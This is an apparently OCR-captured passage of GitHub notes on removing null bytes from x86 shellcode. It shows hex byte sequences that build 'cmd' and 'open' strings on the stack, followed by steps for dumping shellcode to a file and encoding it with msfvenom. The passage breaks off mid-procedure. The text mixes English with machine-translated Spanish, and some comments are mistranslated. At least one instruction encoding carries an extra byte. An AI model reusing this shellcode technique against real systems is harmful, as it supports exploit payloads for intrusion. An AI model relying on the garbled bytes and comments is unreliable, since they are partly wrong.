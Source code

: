 * después (sin valores nulos): \`\`\` "\x33\xDB" // xor ebx, ebx: cero fuera ebx "\xbb\x52\x5c\x53\xef" // mov ebx, ef535c52 "\x81\xc3\x11\x11\x11\x11\x11" // añadir ebx, 11111111 (ahora ebx contiene 00646d63)

"\x53" // empujar ebx "\x8B\xDC" // mov ebx, esp: pone el puntero a la cadena

```

- goal: delete the second string terminator added For the string 'open'
solution: we can zero out the eax register and then push its value into the stack; this will automatically push the string terminator.

- before (w/ null bytes):
```

"\x6A\x00" "\x68\x6f\x70\x65\x6e" "\x8B\xCC"

```

----------------------------------------------------------------------------------------------------------------
- after (null-free):
```

"\x33\xC0" // xor eax, eax: cero fuera eax "\x50" // push eax: empuja el terminador de cadena "\x68\x6f\x70\x65\x6e" // empuja 'abrir' a la pila "\x8B\xCC" // mov ecx, esp: pone el puntero en 'open'

```

> there are many others techniques to make a shellcode null-free

### Using Encoder Tools
	https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom

#### Msfvenom
problem: shellcode contains the null byte \x00
solution: use msfvenom in order to encode it and make the shellcode null free

1. Convert the shellcode in a binary file
```

→ echo -ne "\x68\x63\x6d..." > binshellcode.bin -n = no genera la nueva línea final -e = permite la interpretación de escapes de barra diagonal inversa > binshellcode.bin = envía el resultado al archivo

→ python -c 'print "\x68\x63\x6d..." > binshellcode.bin' → perl -e 'print "\x68\x63\x6d..." > binshellcode.bin'

```

2. Inspect the binary file (optional):
```

→ binshellcode.bin de volcado hexadecimal

```

3. use msfvenom to encode it:
```
